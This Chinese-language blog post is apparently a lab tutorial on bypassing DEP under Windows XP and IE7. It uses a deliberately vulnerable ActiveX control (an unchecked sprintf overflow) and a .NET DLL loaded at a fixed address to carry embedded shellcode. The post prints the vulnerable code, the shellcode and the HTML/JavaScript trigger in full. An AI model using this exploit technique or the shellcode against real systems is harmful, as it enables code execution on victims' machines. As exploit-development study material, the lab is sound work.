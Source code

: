 ```yaml
---
layout:		post
title:		利用.NET挑战DEP
author:		wooy0ung
tags:		
category:  	exploit
---
```



>[分析环境]  
>系统: Windows XP Professional sp3  
>编译器: Visual Studio 2008 
>调试器: OllyDbg 1.10  
<!-- more -->


### 0x00 前期准备

编译ActiveX控件, 注意:

```
1. 禁用优化
2. 关闭GS
3. 在静态库中使用MFC
4. 使用Unicode字符集
5. release版本
```

贴入以下代码, 具体步骤可以参考这片文章: [利用Adobe Flash Player ActiveX控件绕过SafeS.E.H](http://www.wooy0ung.me/exploit/2017/10/04/safeseh-break-byactivex/)

```
void CVulnerAX_DEPCtrl::test(LPCTSTR str)
{
	//AFX_MANAGE_STATE(AfxGetStaticModuleState());

	// TODO: 在此添加调度处理程序代码
	printf("aaaa");
	char dest[100];
	sprintf(dest,"%s",str);
}
```

新建一个.NET控件

![](/assets/img/exploit/2017-12-26-disable-dep-dotnet/0x00.png)

设置dll装载基址

![](/assets/img/exploit/2017-12-26-disable-dep-dotnet/0x01.png)

贴入以下代码, 选择debug版本, 编译

```
using System;
using System.Collections.Generic;
using System.Linq;
using System.Text;

namespace DEP_NETDLL
{
    public class Class1
    {
        public void Shellcode()
        {
            string shellcode =
            "\u9090\u9090\u9090\u9090\u9090\u9090\u9090\u9090" +
            "\ud231\u30b2\u8b64\u8b12\u0c52\u528b\u8b1c\u0842" +
            "\u728b\u8b20\u8012\u0c7e\u7533\u89f2\u03c7\u3c78" +
            "\u578b\u0178\u8bc2\u207a\uc701\ued31\u348b\u01af" +
            "\u45c6\u3e81\u6146\u6174\uf275\u7e81\u4508\u6978" +
            "\u7574\u8be9\u247a\uc701\u8b66\u6f2c\u7a8b\u011c" +
            "\u8bc7\uaf7c\u01fc\u68c7\u2067\u0120\u7968\u7530" +
            "\u686e\u7720\u6f6f\ue189\u49fe\u310b\u51c0\uff50" +
            "\u90d7";
        }
    }
}
```

新建一个文本文件, 贴入以下代码, 更名为test.html

```
<html>
<body>
<object classID="DEP_NETDLL.dll#DEP_NETDLL.Class1"></object>
<object classid="clsid:06BC9528-F8A0-456B-BBBB-09C1248BF827" id="test"></object>
<script>
var s="\u9090";
while(s.length<54){
	s+="\u9090";
}
s+="\u9090\u9090";   //s+="\u24E2\u2424";
test.test(s);
</script>
</body>
</html>
```

将VulnerAX_DEP.ocx、DEP_NETDLL.dll、test.html放到IIS服务默认文件夹的wwwroot目录下, 并且注册VulnerAX_DEP.ocx


### 0x01 exploit

打开IE7.0, 访问http://127.0.0.1/test.html, 再双击打开test.html文件

![](/assets/img/exploit/2017-12-26-disable-dep-dotnet/0x02.png)

来到这里OD附加上去, 选择"E"打开模块, ocx、dll都成功加载

![](/assets/img/exploit/2017-12-26-disable-dep-dotnet/0x03.png)

点进去DEP_NETDLL.dll, 找到shellcode的入口0x242424E2

![](/assets/img/exploit/2017-12-26-disable-dep-dotnet/0x04.png)

修改test.html

```
<html>
<body>
<object classID="DEP_NETDLL.dll#DEP_NETDLL.Class1"></object>
<object classid="clsid:06BC9528-F8A0-456B-BBBB-09C1248BF827" id="test"></object>
<script>
var s="\u9090";
while(s.length<54){
	s+="\u9090";
}
s+="\u24E2\u2424";
test.test(s);
</script>
</body>
</html>
```

关闭调试, 直接运行, pwn~

![](/assets/img/exploit/2017-12-26-disable-dep-dotnet/0x05.png)